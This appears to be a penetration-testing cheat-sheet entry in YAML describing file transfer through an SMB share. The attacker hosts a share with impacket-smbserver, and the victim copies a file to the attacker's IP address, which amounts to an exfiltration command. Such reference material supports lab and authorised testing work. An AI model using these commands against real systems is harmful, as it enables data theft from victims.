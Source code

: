 ```yaml
---
functions:
  file-transfer:
    - description: Transfer Files Through an SMB Share
      code: |
        Attacker
        	impacket-smbserver share ./

        Victim
        	net use \\192.168.119.220\share
        	copy file \\192.168.119.220\share
resources: |
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/wget-windows

---
```

